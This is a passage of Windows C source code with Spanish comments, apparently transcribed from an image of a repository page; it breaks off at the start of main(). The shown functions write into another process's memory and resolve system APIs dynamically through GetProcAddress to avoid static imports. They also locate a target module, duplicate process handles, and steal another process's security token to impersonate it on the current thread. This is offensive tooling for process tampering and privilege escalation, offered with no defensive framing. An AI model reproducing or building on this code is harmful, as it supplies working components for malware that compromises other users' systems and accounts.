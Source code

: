 ```c
                // Intentar escribir en la memoria
                if (!WriteProcessMemory(hProcess, mbi.BaseAddress, buffer, bytesRead, &bytesRead)) {
                    // Fallo al escribir en la memoria
                }
            }
        }
        baseAddress = (LPVOID)((ULONG_PTR)mbi.BaseAddress + mbi.RegionSize);
    }
}

HMODULE findTargetModule(HANDLE hProcess, const char* targetModuleName) {
    HMODULE hMods[MAX_MODULES];
    DWORD cbNeeded;
    char moduleName[256];

    EnumProcessModules_t EnumProcessModules = (EnumProcessModules_t)GetProcAddress(LoadLibraryA("psapi.dll"), "EnumProcessModules");
    GetModuleBaseNameA_t GetModuleBaseNameA = (GetModuleBaseNameA_t)GetProcAddress(LoadLibraryA("psapi.dll"), "GetModuleBaseNameA");

    if (EnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded)) {
        for (unsigned int i = 0; i < (cbNeeded / sizeof(HMODULE)); i++) {
            if (GetModuleBaseNameA(hProcess, hMods[i], moduleName, sizeof(moduleName))) {
                if (strcmp(moduleName, targetModuleName) == 0) {
                    return hMods[i];  // Retornar el handle del módulo encontrado
                }
            }
        }
    }
    return NULL;  // No se encontró el módulo
}

void duplicateHandle(HANDLE hProcess, HANDLE targetHandle) {
    HANDLE dupHandle;
    DuplicateHandle_t DuplicateHandle = (DuplicateHandle_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "DuplicateHandle");

    if (DuplicateHandle(hProcess, targetHandle, GetCurrentProcess(), &dupHandle, 0, FALSE, DUPLICATE_SAME_ACCESS)) {
        // Handle duplicado correctamente
    } else {
        // Error al duplicar el handle
    }
}

void extractToken(HANDLE hProcess) {
    HANDLE hToken, hDupToken;
    OpenProcessToken_t OpenProcessToken = (OpenProcessToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "OpenProcessToken");
    DuplicateToken_t DuplicateToken = (DuplicateToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "DuplicateToken");
    SetThreadToken_t SetThreadToken = (SetThreadToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "SetThreadToken");

    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        if (DuplicateToken(hToken, 2 /* SecurityImpersonation */, &hDupToken)) {
            SetThreadToken(NULL, hDupToken);
        }
    }
}

int main() {
```